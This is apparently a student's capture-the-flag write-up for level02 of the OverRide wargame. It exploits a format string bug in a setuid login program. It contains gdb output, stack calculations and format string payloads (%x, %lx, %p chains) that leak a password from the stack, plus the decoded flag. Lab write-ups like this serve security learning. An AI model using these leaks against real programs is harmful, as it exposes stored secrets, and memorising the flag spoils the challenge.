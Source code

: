 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

/!\ File in 64 bits  
```
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 26.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%8lx.%8x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
--[ Password: *****************************************
AAAAffffe4f0.00000000.00000025.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.78383025.30252e78.2e783830.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838.78383025.00000000. does not have access!
```
7838302530252e782e7838303830252e252e7838

reversed :
252e78383830252e

0x400d22 = \x22\x0d\x40\x00
f7ff9a08 = \x08\x9a\xff\xf7
ffffe4f0 = \xf0\xe4\xff\xff
0x7fffffffe5d0
printf ("\x22\x0d\x40\x00_%08x.%08x.%08x.%08x.%08x|%s|")

Main variables stack starting Address : 0x7fffffffe5a0

Try `printf ("\x88\xe6\xff\xff_%08x.%08x.%08x.%08x.%08x|%s|")` with these stack addresses to print the content of `read_buffer` ?

### Finding the adress of `file_content`

(gdb) b *0x0000000000400818
Breakpoint 1 at 0x400818

(gdb) r
Starting program: /home/users/level02/level02 

Breakpoint 1, 0x0000000000400818 in main ()
(gdb) p $rsp
$1 = (void *) 0x7fffffffe5d0

- Stack Pointer Address at the beginning of the main is : `0x7fffffffe5d0`  

- The allocated size of stack variables are 288 bytes (0x120)

- The variable is the second declared in the main so it will be the second to last in the memory, the last being an int of size 4 bytes
=> 

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

```
AAAAffffe4f0.0.2e.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.78252e.0.34376848.61733951.574e6758.6e475873.664b394d.0.41414141.78252e78.252e7825.2e78252e.78252e78 does not have access!
```

We can extract this group of 5 * 8 = 40 bytes  followed by `\0` that could be our flag string in hex

34376848.61733951.574e6758.6e475873.664b394d

`3437684861733951574e67586e475873664b394d`

hex to string : `47hHas9QWNgXnGXsfK9M` => does not work !

reversed : 664b394d6e475873574e67586173395134376848 => `fK9MnGXsWNgXas9Q47hH`


%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: *****************************************
0x7fffffffe4f0(nil)0x700x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x25702570257025700x70(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x29002570250x602010(nil)0x7ffff7a3d7ed(nil)0x7fffffffe6e80x1000000000x400814(nil)0xec9d7c0ee9efabd3 does not have access!
```

- The following string can be extracted : `0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d`

- In order to get our flag we have to process this string :
  1) Split the 5 chunks with the separator `0x`
  2) Convert each chunk to little endian
  3) Convert each hex number to a char
  4) Join all converted chunks

- flag : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`




